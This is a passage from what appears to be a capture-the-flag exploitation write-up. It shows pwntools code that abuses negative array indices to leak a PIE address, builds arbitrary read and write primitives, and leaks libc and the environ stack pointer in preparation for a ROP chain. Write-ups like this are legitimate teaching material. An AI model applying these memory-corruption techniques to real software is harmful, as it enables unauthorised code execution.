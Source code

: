 ```python

# View value at index - then extract the output
def LeakAdr(Index):
    View(Index)
    leek = u64(io.recvline().strip().ljust(8, b'\0'))
    return leek
```

With these in place, we can try to leak the first pointer. We can also use this to calculate the PIE base. Counting backwards we find the pointer at index -11.

```python
leek = LeakAdr(-11)
exe.address = leek - 0x4008
log.info(f"leek: {hex(leek)}")
log.info(f"exe: {hex(exe.address)}")
```

Output:
```
[*] leek: 0x555555558008
[*] exe: 0x555555554000
```

It worked! Since we can write 16 bytes, we can also write to the next reachable index which is `-10`, but make sure to write the 0x555555558008 address over itself to not lose access to this part of memory through index `-11` 

We can write generic functions for both arbitrary read and write this way.
```python
def WriteAdr(Where, What):
    Write(-11, p64(leek)+p64(Where))    
    Write(-10, What)
    
def ReadAdr(Where):
    Write(-11, p64(leek)+p64(Where))    
    View(-10)
    return u64(io.recvline().strip().ljust(8, b'\0'))
```


## Reading libc - environ - stack

With the help of these functions we can now read the `environ` variable from libc. This special variable in libc identifies the stack area, enabling us to find the return pointer of main where we can write a ROP-chain.

First we read the libc-base by leaking puts, then we get environ and access the stack.

```python
puts = ReadAdr(exe.got['puts'])
libc.address = puts - libc.sym.puts
log.info(f"libc @ {hex(libc.address)}")

environ = ReadAdr(libc.sym.environ)
log.info(f"environ @ {hex(environ)}")
```
